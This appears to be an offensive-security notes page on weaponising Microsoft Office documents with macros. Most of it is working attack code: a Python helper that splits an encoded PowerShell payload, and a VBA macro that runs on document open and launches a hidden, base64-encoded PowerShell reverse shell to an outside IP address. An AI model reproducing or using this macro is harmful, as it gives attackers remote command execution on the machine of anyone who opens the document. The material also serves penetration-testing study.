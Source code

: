 ```yaml
---
description: >-
  Credit:
  https://cel1s0.gitbook.io/offsec-notes/readme/windows/office-macro/microsoft-office
---
```


# Microsoft Office

Choose VIEW ribbon and selecting Macros option. We type name for the macro and in the MACROS in drop-down menu, select the name of document, then the macro will be add. When we click create, a simple macro framework will be add into our document. We have to save the document as either .docm or the older .doc format. They support embedded macros, .docx format does not.

{% embed url="https://www.revshells.com/" %}

![](<../../../.gitbook/assets/image (10).png>)

We have to edit the payload. We change related part of payload variable.&#x20;

```python
#!/usr/bin/python

payload = "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad..."

n=50

for i in range(0, len(payload), n):
	print "Str = Str + " + '"' + payload[i:i+n] + '"'
```

```vba
Sub AutoOpen()
    Evil
End Sub

Sub Document_Open()
    Evil
End Sub
s
Sub Evil()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad"
    Str = Str + "AAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdAB"
    Str = Str + "lAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDA"
    Str = Str + "GwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxACI"
    Str = Str + "ALAA4ADAAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAa"
    Str = Str + "QBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB"
    Str = Str + "5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2A"
    Str = Str + "DUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGk"
    Str = Str + "AIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAe"
    Str = Str + "QB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgB"
    Str = Str + "nAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhA"
    Str = Str + "CAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHA"
    Str = Str + "AZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQ"
    Str = Str + "QBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB"
    Str = Str + "0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApA"
    Str = Str + "DsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQ"
    Str = Str + "AZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAc"
    Str = Str + "gBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQA"
    Str = Str + "gACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgA"
    Str = Str + "CsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACI"
    Str = Str + "AOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAd"
    Str = Str + "AAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQA"
    Str = Str + "uAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrA"
    Str = Str + "DIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHM"
    Str = Str + "AZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZ"
    Str = Str + "QAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgB"
    Str = Str + "sAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvA"
    Str = Str + "HMAZQAoACkA"
    CreateObject("Wscript.Shell").Run Str
End Sub
```
